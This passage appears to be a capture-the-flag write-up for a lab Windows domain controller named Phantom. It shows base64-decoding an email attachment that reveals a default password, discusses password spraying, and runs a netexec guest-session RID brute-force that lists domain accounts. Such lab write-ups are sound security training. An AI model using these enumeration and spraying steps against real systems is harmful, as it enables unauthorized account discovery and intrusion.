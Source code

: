 ```bash
➜  Phantom base64 -d mail.txt > mail.pdf
```

<figure><img src="../assets/img/1.png" alt=""><figcaption></figcaption></figure>

After opening the file, we see the default password set for users.\
If we have a password, doing a password spray makes sense. However, we need a user list for that.\
When I tried the password with the two usernames we got from the email, it worked for the _techsupport_ account, but I couldn't make further progress from there.\
We can use the _guest_ user to perform RID brute-forcing and obtain a user list.

<pre class="language-bash"><code class="lang-bash">➜  Phantom netexec smb 10.10.86.166 -u guest -p '' --rid-brute
SMB         10.10.86.166    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:False)
SMB         10.10.86.166    445    DC               [+] phantom.vl\guest: 
SMB         10.10.86.166    445    DC               [-] Neo4J does not seem to be available on bolt://127.0.0.1:7687.
SMB         10.10.86.166    445    DC               498: PHANTOM\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.86.166    445    DC               500: PHANTOM\Administrator (SidTypeUser)
SMB         10.10.86.166    445    DC               501: PHANTOM\Guest (SidTypeUser)
<strong>&#x3C;SNIP>
</strong>SMB         10.10.86.166    445    DC               1131: PHANTOM\ebryant (SidTypeUser)
SMB         10.10.86.166    445    DC               1132: PHANTOM\vlynch (SidTypeUser)
SMB         10.10.86.166    445    DC               1133: PHANTOM\ghall (SidTypeUser)
SMB         10.10.86.166    445    DC               1134: PHANTOM\ssimpson (SidTypeUser)
SMB         10.10.86.166    445    DC               1135: PHANTOM\ccooper (SidTypeUser)
SMB         10.10.86.166    445    DC               1136: PHANTOM\vcunningham (SidTypeUser)
SMB         10.10.86.166    445    DC               1137: PHANTOM\SSPR Service (SidTypeGroup)
</code></pre>
